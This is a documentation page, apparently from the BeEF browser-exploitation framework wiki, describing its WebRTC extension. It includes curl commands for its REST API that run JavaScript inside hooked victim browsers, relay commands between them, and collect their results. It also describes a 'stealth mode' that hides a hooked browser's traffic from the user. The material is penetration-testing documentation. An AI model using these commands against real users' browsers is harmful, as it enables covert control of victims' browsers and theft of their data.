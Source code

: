 ## Introduction

By default, BeEF uses XMLHttpRequest objects to poll to your BeEF server every 5 seconds. The logic is in the `updater.js` file of the core BeEF JavaScript client. It executes a `setTimeout()` function call that executes `beef.updater.get_commands()`, requesting the `hook.js` file from the BeEF server.

BeEF has options to use the WebSocket protocol as well, which shifts the comms from a polling mechanism to a more bi-directional streaming method of sending and receiving data between the server and browsers. 

The problem with both the hook polling and WebSocket communication is exposure of the BeEF server. Not only does the IP address of the BeEF server gets exposed over the network, the communications are visible in the "Network" tabs of browser developer tools. This increases the risk of the experienced user realizing that their browser is hooked.

[[Images/beef-hooks.png|align=center]]

## Enabling the webrtc extension

By default, the webrtc extension is disabled. To enable it, simply edit `<beef_root>/extensions/webrtc/config.yaml` and set enable to `true`

snippet of the file:
```yaml
beef:
    extension:
        webrtc:
            name: 'WebRTC'
            enable: true #enable the extension
```

## console usage

When this extension is written, the console module is still usable and supported. Unfortunately, it is no longer usable.

see https://blog.beefproject.com/2015/01/hooked-browser-meshed-networks-with_26.html for console usage examples

## Rest API usage

### Get WebRTC status of a hooked browser

`GET /api/webrtc/status/:id`

**Request**

for getting the status of id 1:
```
curl http://localhost:3000/api/webrtc/status/1?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**
`{"success":true}`

that means WebRTC is available for that session.

### initiating WebRTC between two hooked browsers


`POST /api/webrtc/go`

**Request**
This initiates WebRTC communication between browsers 1 and 2.

```
curl -d '{"from":1,"to":2}' \
     http://localhost:3000/api/webrtc/go?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

`{"success":true}`


### Sending messages

**Request**
This sends a message between browsers 1 and 2.

```
curl -d '{"from":1, "to":2, "message":"Just a plain message"}' \
     http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

`{"success":true}`


#### Sending javascript to execute

The built in message handler for executing javascript is `%<code>`, sent just like a normal message.

This sends a message from browser 1 to 2 to execute a piece of JavaScript:

**Request**
```
curl -d '{"from":1, "to":2, "message":"%alert(\"hello\");"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### stealth mode

Stealth mode is also sent as a message between two browsers. The `to` browser will be put into stealth mode, tunnelling its communication with the BeEF server through the `from` browser.

### going into stealth mode

**Request**

This puts browser 2 into stealth mode (it stops communicating with the BeEF server)
```
curl -d '{"from":1, "to":2, "message":"!gostealth"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### getting out of stealth mode

**Request**

```
curl -d '{"from":1, "to":2, "message":"!endstealth"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### Executing modules through WebRTC

**Request**

Tell browser 2 (without communicating with the BeEF server) to execute command 102 through browser 1

the name is name of the option, and value is the corresponding option value.

```
curl -d '{"from":1, "to":2, "cmdid":102, "options":[{"name":"Domain","value":"default_all"}]}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://127.0.0.1:3000/api/webrtc/cmdexec?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

The result will be displayed in the BeEF terminal output, and stored in the command events of the `from` browser.


### Getting event data from a browser

`GET /api/webrtc/cmdevents/:id`

**Request**

Get all events on browser 1

```
curl http://127.0.0.1:3000/api/webrtc/cmdevents/1?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

```
{"events_count":1,"events":[{"id":1,"hb_id":1,"target_id":2,"status":"fingerprint=223c40dcd69ee362dcf478a80d34bbe8&components=[{\"key\":\"userAgent\",\"value\":\"Mozill...(snipped)
```

> the results of command execution are stored in the `from` browser. In this case, all command results from browser 2 are accessible through requesting events on browser 1.

For further information about the extension, read example RestAPI usage in 

`<beef_root>/extensions/webrtc/rest/webrtc.rb`

[[Previous|Module-creation]] | [[Next|Development-Organization]]